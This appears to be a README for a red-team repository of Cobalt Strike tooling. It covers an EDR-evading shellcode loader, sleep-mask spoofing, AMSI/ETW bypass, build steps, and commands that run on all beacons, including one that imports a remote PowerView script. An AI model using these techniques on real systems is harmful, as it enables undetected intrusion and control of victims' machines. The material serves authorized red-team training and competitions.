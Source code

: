 # Cobalt Strike Resources
Various resources to enhance Cobalt Strike's functionality and its ability to evade antivirus/EDR detection. Includes the custom tooling I used when pursuing the Certified Red Team Lead (CRTL) certification.

### Contents
#### Loader
- [loader](loader/) ⇒ used to bypass Windows Defender and Elastic EDR detections to run Cobalt Strike beacon shellcode `<protocol>_x64.xprocess.bin`
  - uses NtMapViewOfSection technique for shellcode injection
  - spawns and injects into msedge.exe by default, though you could easily change this
#### Profile
- [crtl.profile](profile/crtl.profile) ⇒ malleable C2 profile used on CRTL exam, based on [webbug.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/webbug.profile)
- [mwccdc.profile](profile/mwccdc.profile) ⇒ malleable C2 profile used for MWCCDC regionals in 2024, based on [microsoftupdate_getonly.profile](https://github.com/Cobalt-Strike/Malleable-C2-Profiles/blob/master/normal/microsoftupdate_getonly.profile)
#### Kits
- [sleepmask](kits/sleepmask/) ⇒ Cobalt Strike sleep mask kit modifications to spoof msedge.exe legitimate thread callstack
- [process_inject](kits/process_inject/) ⇒ Cobalt Strike process injection kit modifications that implement NtMapViewOfSection technique - not necessary since this option is available in the malleable C2 profile, but it's a good example of how to use kernel32.dll and ntdll.dll Windows API function calls to create your own injection. I found concrete examples of this to be severely lacking on the internet.
#### Post-Ex
- [powerpick.cs](post-ex/powerpick.cs) ⇒ C# code for running unmanaged PowerShell, providing the PowerShell command as an argument(s) - compatible with inline-x.cna
- [inline-x.cna](post-ex/inline-x.cna) ⇒ modified [inlineExecute-Assembly](https://github.com/anthemtotheego/InlineExecute-Assembly) cna file that makes running .NET assemblies and PowerShell inline easier
- [command-all.cna](post-ex/command-all.cna) ⇒ execute `run` or `shell` command on *all* active Cobalt Strike beacons, without having to interact with each one individually

**Note:** When building powerpick.cs, you'll have to add a reference to **System.Management.Automation.dll**, which is located in `C:\Program Files (x86)\Reference Assemblies\Microsoft\WindowsPowerShell\<version>`

### Loader Usage
#### Two executable types:
1. EXE ⇒ standard Windows executable
2. Service ⇒ Windows service executable

**Note:** beaconsvc.cpp gets caught by Elastic static detection when compiled, so you might have to modify it. You can also run the standard EXE as a service, and it'll throw an error but still spawn the beacon.
#### Three loader variants:
1. Download Stager ⇒ download shellcode from file hosted on Cobalt Strike team server over HTTPS
2. Read Stager ⇒ read shellcode from disk, by default C:\Windows\beacon.bin but you can change this
3. Stageless ⇒ include shellcode directly in PE as a resource (in .rsrc section) - requires encoding the shellcode so it's not caught by EDR
#### Building the loader
1. (stageless only) generate encoded Cobalt Strike shellcode file with [encoder.py](loader/helpers/encoder.py) - see comments for more info
2. open [.sln](loader/loader.sln) file in [Visual Studio](https://visualstudio.microsoft.com/free-developer-offers/)
3. (stageless only) follow instructions in [encoder.py](loader/helpers/encoder.py) to include encoded shellcode file as a resource
4. select your desired build
5. Build Solution

### Inline X Usage
1. Change `$powerpickPath` to specify the path of your unmanaged PowerShell exe (built from [powerpick.cs](post-ex/powerpick.cs))
2. Change `$etw` and `$amsi` as you see fit - I wanted it to always bypass AMSI and ETW, which is why I set these values to 1
3. Load script into Cobalt Strike
4. Execute .NET assembly inline with `x execute-assembly <exe> <args>`
5. Execute unmanaged powershell inline with `x powerpick <powershell>`
   - I made this compatible with `powershell-import`, but I noticed that using this method of importing scripts generally gets detected by EDR. If you'd like to remove this functionality altogether, comment/remove lines 257 and 258.
   - As an alternative, use `--import <script>` (eg. `x --import https://example.com/PowerView.ps1 powerpick Get-Domain`). You can specify a local file on disk or remotely hosted file with http/https. This only supports *one* script. I'm too lazy to extend the functionality to support multiple scripts when one is usually all you need.

**Note:** I commented out the portions of the script that parse arguments in single (') and double quotes (") as a single argument because most of my tooling handles or requires these quotes. For example, the unmanaged PowerShell implementation [powerpick.cs](post-ex/powerpick.cs) takes arguments passed in, converts them to one string, and runs that string. Treating multiple words as a single argument in PowerShell commands thus requires passing in those quotes as-is. You may run into instances where you *do* need to parse arguments in quotes as a single argument, much like you would when running the .NET executable in a terminal. If this is the case, you are welcome to uncomment the code portions starting on line 87 and reload the script.

### Command All Usage
1. Load script into Cobalt Strike
2. Open Script Console
3. Execute `run` on all active beacons with `run_all <exe> <args>`
4. Execute `shell` on all active beacons with `shell_all <command>`

### Credit
My experience with AV/EDR evasion techniques and Cobalt Strike comes from the following:
- [Zero-Point Security Red Team Ops II](https://training.zeropointsecurity.co.uk/courses/red-team-ops-ii)
- [Maldev Academy](https://maldevacademy.com)
- [Midwest Regional Collegiate Cyber Defense Competition](https://www.cssia.org/mwccdc/) (I'm a red team volunteer)

I also recommend checking out the [Sektor7 Institute](https://institute.sektor7.net) courses

### Copyright Disclaimer
I was careful to avoid any copyright infringement with the resources I publicly provided in this repo. Here are two areas where copyright might come into question:
1. I include my modifications to the Cobalt Strike process injection and sleep mask kits from Fortra, which are closed-source. However, I only provided files to which I made modifications, and I replaced all portions of the code that were not my own with a comment stating *redacted*. Should you choose to use these resources, you'll have to copy my code portions over from this repo to the corresponding files in the kits.
2. In my loader, I included code taken directly from the Zero-Point Security Red Team Ops II course. However, this code is publicly available and easily-obtainable online as well. Telling ChatGPT to "write C++ code using WinHTTP to download a file and save it to an std::vector<BYTE>" yields almost the exact same code for the Download function, and the NtMapViewOfSection technique is [publicly documented](https://www.ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection) in various locations, making use of the same Windows API function calls in the same order.
